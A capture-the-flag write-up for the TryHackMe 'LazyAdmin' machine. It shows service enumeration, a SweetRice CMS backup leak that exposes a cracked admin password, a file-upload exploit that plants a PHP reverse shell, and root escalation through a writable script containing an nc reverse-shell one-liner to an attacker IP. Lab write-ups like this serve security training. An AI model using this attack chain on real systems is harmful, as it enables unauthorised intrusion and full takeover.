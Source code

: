# [LazyAdmin - Easy linux machine to practice your skills](https://tryhackme.com/r/room/lazyadmin)

## Enumeration

### Nmap-scan
```
kali@kali:~/CTFs/lazyadmin$ nmap -sC -sV -Pn $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 08:46 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
```
- open ssh port
- open http port, httpd seems to be using the default config

**Nmap enumeration scan**
```
kali@kali:~$ nmap --script=http-enum $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 09:10 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /content/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 5.84 seconds
```

### Gobuster
1. DNS-scan
```
kali@kali:~$ gobuster dns -d $TARGET_IP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     <TARGET-IP>
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
                                                                                                                                       
kali@kali:~$ 
```

2. DIR-scan
```
kali@kali:~$ gobuster dir -u $TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-error 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <TARGET-IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> <TARGET-IP>/content/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Inspecting the HTTP-website
- default Apache2 Ubuntu landing page

#### Inspecting /content
- indicates 'SweetRice CMS' is used

![sweetrice](images/content_page.png)

## Exploiting SweetRice CMS
- [SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) -> allows us to upload a reverse-shell, valid login credentials required
- [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718) -> */content/inc* is accessable, provides backup data

### Reviewing the backup file

![backup_disclosure](images/mysql_backup.png)

```
kali@kali:~/CTFs/lazyadmin/mysql_backup$ curl <TARGET-IP>/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o mysql_backup.sql
```

![mysql_backup](images/sqlfile.png)

- looks like the username is "manager" and the password is given as md5-hash
- https://md5decrypt.net/en/ -> "Password123"

### File-Upload vulnerability

1. [prepare a reverse shell](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads)
2. get the exploit up and running (https://www.exploit-db.com/exploits/40716)
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : <TARGET-IP>/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://<TARGET-IP>/content/attachment/php-reverse-shell.php
```

- file does not appear in */content/attachment/*, the WebServer most likely filters *.php files
- uploading the script as *.phtml works

![upload](images/revshell.png)

3. Set up a listener and execute the uploaded script
```
kali@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 37486
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:58:23 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm-256color
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$   
```

## Catching the user-flag
```
cd /home/itguy && cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
www-data@THM-Chal:/home/itguy$ 
```

## Catching the Root-Flag
```
ww-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
- backup.pl can be executed as root via `sudo` 
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- if */etc/copy.sh* is writeable, it can be used to create another reverse-shell (as root)
```
www-data@THM-Chal:/home/itguy$ cd /etc && ls -lisa | grep copy.sh
1050508  4 -rw-r--rwx   1 root root      83 May 15 15:32 copy.sh
```
- it is writeable
```
www-data@THM-Chal:/etc$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER-IP> 1337 >/tmp/f
www-data@THM-Chal:/etc$ 
```
-> setup a listener `nc -lvnp 1337` on the attacker-machine `www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl`

```
kali@kali:~$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 50204
root@THM-Chal:/etc# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@THM-Chal:/etc# 
```
